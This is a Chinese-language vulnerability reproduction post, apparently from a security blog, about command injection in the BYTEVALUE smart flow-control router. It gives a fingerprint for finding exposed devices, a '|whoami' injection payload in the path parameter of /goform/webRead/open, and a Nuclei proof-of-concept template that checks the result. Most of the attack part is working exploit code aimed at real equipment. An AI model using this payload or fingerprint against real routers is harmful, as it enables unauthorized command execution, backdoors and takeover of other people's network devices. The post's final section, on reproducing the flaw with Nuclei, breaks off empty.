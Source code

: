 # 原创
：  【漏洞复现】BYTEVALUE智能流控路由器存在命令执行

# 【漏洞复现】BYTEVALUE智能流控路由器存在命令执行

### 【漏洞介绍】

百为智能流控路由器 /goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞。攻击者可通过该漏洞在服务器端执行命令，写入后门，获取服务器权限，从而获取路由器权限。

### 【指纹】

title=”BYTEVALUE 智能流控路由器”

### 【UI】

### 【payload】

/goform/webRead/open/?path=|whoami

### 【Poc】

```
id: BYTEVALUE-Rce
info:
  name: BYTEVALUE-Rce
  author: BYTEVALUE-Rce
  severity: critical
  tags: BYTEVALUE

http:
  - raw:
    - |
        GET /goform/webRead/open/?path=|whoami HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "admin"
      - type: status
        status:
          - 200

```

### 【使用nuclei复现】
